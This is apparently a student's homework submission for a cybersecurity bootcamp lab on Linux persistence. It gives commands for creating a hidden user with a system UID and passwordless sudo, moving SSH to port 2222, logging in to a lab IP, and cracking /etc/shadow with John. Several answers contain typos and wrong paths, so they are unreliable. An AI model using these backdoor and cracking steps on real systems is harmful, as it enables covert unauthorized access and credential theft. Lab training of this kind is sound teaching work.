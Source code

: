 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
   
    - `adduser sysd`

    

2. Give your secret user a password: 
   
    - `cybersecurity`

3. Give your secret user a system UID < 1000:
  
    - `nano etc/passwd`
        
       - change UID value to 468

4. Give your secret user the same GID:
  
   - `nano etc/passwd`
       
        - change GID value to 468


5. Give your secret user full `sudo` access without the need for a password:
   -  
   `nano etc/sudoers`
        
        -enter under user pivilege specification
            
`sysd    ALL=(ALL:ALL) NOPASSWRD:ALL `

6. Test that `sudo` access works without your password:
   
    `sudo nano etc/sudoers`
   

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

`sudo nano /etc/ssh/sshd.config`

     - uncomment and adjust the line "port22"

    port 2222
    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - `sudo systemctl restart ssh.service
    `

2. Exit the `root` account:
    - 
    `su sysd`
        `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   
    - `sudo -s`
    - `cd /etc
        
    - `john shadow`
 
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

